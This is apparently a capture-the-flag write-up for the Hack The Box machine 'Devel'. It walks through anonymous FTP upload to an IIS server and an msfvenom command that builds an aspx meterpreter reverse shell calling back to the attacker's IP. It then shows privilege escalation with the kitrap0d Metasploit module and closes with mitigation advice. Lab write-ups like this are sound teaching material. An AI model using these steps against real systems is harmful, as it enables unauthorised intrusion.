#  Devel


## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)

- [**Mitigation**](#Mitigation)


## Box

 


## Profile

[](https://www.hackthebox.eu/home/users/profile/419539)


## Enumeration

First, i start with nmap scanning:

 


Microsoft IIS 7.5 ise deployed in this machine. Before trying to connect to the ftp server, i tried the http server. In the main page, there were just the default page of IIS server. So, i try to get more information about the anonymous connection on the ftp server using metasploit module: `auxiliary/scanner/ftp/anonymous`

 


I have **READ** and **WRITE** right with the anonymous access, thus, i can put files from my local machine. After connection, i found an image called `welcome.png`:

 


It is the same image of the http main page:

 

So, when we upload files in the ftp server, we can access to this file from the website.


## Exploitation

As ther server deployed is IIS, `aspx` format file can be loaded, so, i decided to generate an aspx reverse shell file with meterpreter staged payload using msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.14.31" LPORT=4444 -f aspx > rev_shell.aspx
```


I put it in the ftp server:

 


Before loading the webpage, i start **metasploit** to create a port listener using the following module: `exploit/multi/handler`

I set the corresponding payload: `set payload windows/meterpreter/reverse_tcp`

And finally run it. 

I loaded the file in the website and it did exist:



And i got the reverse shell:

  


## Post-exploitation

In the backgroung of the session created, i used the suggester module to get privesc exploit:

 


I tried `exploit/windows/local/ms10_015_kitrap0d` module and set correct options with new `lport` (because default it use 4444 port which is used in my meterpreter session, so i set to 4445) and i run it, and i got new session with `nt authority\system`:

 

 

### User

After that, i just got on Users and see `babis` user which had the flag:

 


### Root

As i had the highest privilege, i could go to the admin user:

 


## Mitigation

To avoid these vulnerabilities, it is recommended to:

- Upgrade to the latest version of deployed server
- Disallow **READ/WRITE** rights for anonymous connection to the ftp server
- Disallow anonymous connection to the ftp server if possible